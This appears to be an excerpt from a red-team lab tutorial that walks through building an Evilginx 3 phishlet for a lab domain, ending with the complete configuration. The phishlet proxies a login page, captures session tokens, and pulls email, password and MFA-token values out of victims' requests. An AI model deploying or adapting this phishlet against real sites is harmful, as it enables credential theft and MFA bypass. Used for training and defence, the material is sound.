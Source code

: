     credentials:
    username:
        key: ''
        search: '"email":"([^"]*)'
        type: 'json'    
    password:
        key: ''
        search: '"password":"([^"]*)'
        type: 'json'
    custom:
        key: 'mfaToken'
        search: '"mfaToken":"([^"]*)'
        type: 'json'

    ```

20. The only thing left to do now is tell EvilGinx what exactly the logon endpoint is so EvilGinx knows what to serve the victim if we are going to create the lure.

    ```bash

    login:
    domain: 'sec565.rocks'
    path: '/login'

    ```


The full phishlet should look like this:

```bash

min_ver: '3.0.0'
proxy_hosts:
  - {phish_sub: '', orig_sub: '', domain: 'sec565.rocks', session: true, is_landing: true, auto_filter: true}
auth_tokens:
  - domain: 'sec565.rocks'
    path: '/api/auth/validate-token'
    name: 'token'
    header: 'Authorization'  
    type: 'http'
auth_urls:
  - '/sensitive-data'
  - '/users'
  - '/validate-token'

credentials:
  username:
    key: ''
    search: '"email":"([^"]*)'
    type: 'json'    
  password:
    key: ''
    search: '"password":"([^"]*)'
    type: 'json'
  custom:
    key: 'mfaToken'
    search: '"mfaToken":"([^"]*)'
    type: 'json'
   
login:
  domain: 'sec565.rocks'
  path: '/login'

```
